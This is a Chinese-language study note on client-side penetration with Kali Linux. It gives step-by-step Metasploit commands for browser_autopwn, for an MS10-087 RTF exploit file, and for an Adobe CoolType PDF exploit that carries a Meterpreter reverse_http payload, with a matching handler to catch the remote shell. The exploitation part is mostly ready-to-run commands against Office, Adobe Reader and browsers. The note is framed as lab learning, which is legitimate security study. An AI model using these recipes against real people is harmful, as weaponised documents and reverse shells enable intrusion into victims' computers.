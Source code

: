 # kali 客户端渗透学习

## 概述
* 个人电脑一般安装了个人防火墙和杀毒软件，很难使用网络服务渗透的方法
* 根据不同的环境特性选择不同的攻击技术
* 客户端渗透技术常常针对浏览器、office软件等
## 知名的漏洞
* JAVA 7 ,CVE-2012-4681，导致内嵌JRE的IE、FireFox、Chrome、Safari都受影响
* IE ,MS11-050
* Office ,MS10-087 

## 学习

### browser_autopwn

```
msf>search browser_autopwn
>use auxiliary/server/browser_autopwn
>set LHOST 10.10.10.128
>set SRVHOST 10.10.10.128
>set URIPATH auto
>run
```
* 注：等提示Server Started 之后（要一点时间）再使用浏览器访问url地址
http://10.10.10.128:8080/auto 之后将自动进行攻击

* 使用自动化攻击不一定都会成功，有可能导致浏览器崩溃，我在实验的过程中碰到xp失败和win7浏览器崩溃问题


### ms10-087 office漏洞

* 适用office 2002,2003,2007
```
msf>use exploit/windows/fileformat/ms10_087_rtf_pfragments_bof 
>set payload windows/exec
>set CMD calc.exe
>set FILENAME test.rtf
>exploit
```
* 生成文件后，目标机点击该文件会执行calc.exe

### adobe_cooltype_sing漏洞
* 适用adobe 8.2.4~9.3.4
```
msf> use exploit/windows/fileformat/adobe_cooltype_sing
>set payload windows/meterpreter/reverse_http
>set LHOST 192.168.10.131
>set LPORT 8443
>set FILENAME 2.pdf
>run
```
* 生成PDF

```
msf>use exploit/multi/handler
>set payload windows/meterpreter/reverse_http
>set LHOST 192.168.10.131
>set LPORT 8443
>run
```
* 在目标电脑上打开PDF，就会溢出成功